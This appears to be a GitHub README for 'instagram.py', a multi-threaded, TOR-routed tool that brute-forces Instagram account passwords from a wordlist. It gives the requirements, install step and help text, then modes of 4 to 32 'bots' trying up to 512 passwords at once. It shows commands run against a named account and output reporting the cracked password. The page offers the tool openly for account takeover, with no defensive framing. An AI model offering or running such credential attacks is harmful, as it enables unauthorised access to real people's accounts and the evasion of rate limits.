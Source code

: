 Requirements
Python v3.x.x
Kali Linux 2.0
TOR
Install Dependencies
pip3 install -r requirements.txt
Help
C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
Usage
python3 instagram.py <chan.1008_> <wordlist> -m <mode>
Bots(Threads)
4 bots: 64 passwords at a time
8 bots: 128 passwords at a time
16 bots: 256 passwords at a time
32 bots: 512 passwords at a time
Modes
0: 32 bots
1: 16 bots
2: 8 bots
3: 4 bots
Chill mode
This mode uses only 4 bots, or 64 passwords at a time.

C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 3
Moderate mode 1
This mode uses 8 bots, or 128 passwords at a time.

C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 2
Moderate mode 2
This mode uses 16 bots, or 256 passwords at a time.

C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 1
Savage mode
This mode uses 32 bots, or 512 passwords at a time.

C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 0
If you don't specify a mode, then mode is set to 2
Run
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
Stop
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123

